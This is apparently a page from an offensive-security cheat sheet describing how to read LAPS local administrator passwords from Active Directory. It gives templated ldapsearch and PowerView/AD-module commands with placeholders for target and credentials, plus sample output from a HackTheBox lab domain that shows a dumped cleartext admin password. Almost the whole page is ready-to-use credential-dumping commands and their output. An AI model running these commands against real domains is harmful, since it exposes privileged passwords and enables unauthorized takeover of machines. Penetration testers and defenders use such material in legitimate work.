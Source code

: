 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["Credential Dumping", "Powerview", "ReadLAPSpassword", "Active Directory", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -H ldap://<TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<DOMAIN> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

```console {class="sample-code"}
$ ldapsearch -H ldap://10.10.10.240 -b 'DC=LicorDeBellota,DC=HTB' -x -D bob@LicorDeBellota.htb -w 'Test1234!@' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=LicorDeBellota,DC=HTB> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# PIVOTAPI, Domain Controllers, LicorDeBellota.htb
dn: CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
ms-Mcs-AdmPwd: 2Vf5kP4Xvj5r605V616x

# search reference
ref: ldap://ForestDnsZones.LicorDeBellota.htb/DC=ForestDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://DomainDnsZones.LicorDeBellota.htb/DC=DomainDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://LicorDeBellota.htb/CN=Configuration,DC=LicorDeBellota,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS password

```console
Get-DomainComputer <TARGET_COMPUTER> -Properties ms-Mcs-AdmPwd
```

```console
# Or Active Directory Module
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd 


DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 2Vf5kP4Xvj5r605V616x
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :

```

{{< /tabcontent >}}
